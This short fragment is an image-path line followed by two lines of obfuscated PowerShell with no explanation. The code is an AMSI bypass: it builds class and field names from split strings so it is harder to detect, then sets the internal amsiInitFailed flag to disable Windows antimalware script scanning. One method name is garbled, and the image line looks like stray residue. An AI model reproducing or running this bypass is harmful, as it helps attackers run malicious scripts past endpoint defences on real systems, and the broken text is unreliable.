 $g = [Ref].Assembly.GetType('S'+'ystem.'+'M'+'anagement.'+'A'+'utomation.'+'A'+'msiU'+'tils')
$g.GetField(('amsi'+'I'+'nitFa'+'il'+'ed'),'N'+'on'+'Pu'+'blic,S'+'t'+'atic').Se'etV'alue($null,$true)
